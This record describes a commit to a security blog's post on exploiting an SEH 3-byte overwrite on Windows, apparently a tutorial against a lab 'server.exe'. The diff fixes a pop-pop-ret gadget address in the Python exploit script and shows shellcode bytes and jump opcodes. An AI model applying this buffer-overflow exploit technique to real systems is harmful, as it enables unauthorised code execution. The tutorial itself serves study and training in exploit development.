

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md, in a window 1280 px wide and 900 px high, scrolled down 8229 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md

```diff
--- a/_posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md
+++ b/_posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md
@@ -314,8 +314,8 @@ buf += b"\xe1\xdb\x6e\x7b\x64\x48\xf2\x52\x03\xe8\x91\xaa"
 
 host = sys.argv[1]
 
-seh = "\x2D\x27\x40\x00" # 0040272D : pop esi # pop edi # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [server.exe] ASLR:
-False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\server.exe)
+seh = "\x49\x1C\x40\x00" # 0x00401c49 : pop esi # pop edi # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [server.exe] ASLR:
+# False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\server.exe)
 nseh = "\xEB\xF9\x90\x90"
 sjmp = "\xE9\xA9\xFC\xFF\xFF"
 
```
